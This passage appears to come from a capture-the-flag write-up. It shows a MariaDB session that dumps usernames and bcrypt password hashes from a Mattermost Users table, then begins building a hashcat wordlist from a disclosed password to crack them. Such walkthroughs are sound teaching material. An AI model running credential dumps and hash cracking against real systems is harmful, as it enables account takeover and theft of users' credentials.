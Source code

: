     Database changed
    MariaDB [mattermost]> show tables;
    +------------------------+
    | Tables_in_mattermost   |
    +------------------------+
    | Audits                 |
    | Bots                   |
    <SNIP>
    | UserAccessTokens       |
    | UserGroups             |
    | UserTermsOfService     |
    | Users                  |
    +------------------------+
    46 rows in set (0.001 sec)


    MariaDB [mattermost]> select Username,Password from Users;
    +----------------------------------+--------------------------------------------------------------+
    | Username                         | Password                                                     |
    +----------------------------------+--------------------------------------------------------------+
    | surveybot                        |                                                              |
    | c3ecacacc7b94f909d04dbfd308a9b93 | $2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK |
    | john5412663                      | $2a$10$hF3jgrGBPYT2LaXISy67K.lAaTNaOKJfruZTWSzQo..ZI9dHctf7a |
    | 5b785171bfb34762a933e127630c4860 | $2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G |
    | root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |
    | ff0a21fc6fc2488195e16ea854c963ee | $2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq |
    | channelexport                    |                                                              |
    | 9ecfb4be145d47fda0724f697f35ffaf | $2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm |
    | john                             | $2a$10$.uKtro1Yc15ZycqOJX1X/.m6yg7VSD60EUV58BJ4SVgg0xsYzrKe2 |
    +----------------------------------+--------------------------------------------------------------+
    9 rows in set (0.000 sec)

    MariaDB [mattermost]> exit
    Bye

We create a dictionary using the disclosed password and using `hashcat` rules we
generate a few variations.

    :::text
    $ cat dic
    PleaseSubscribe!
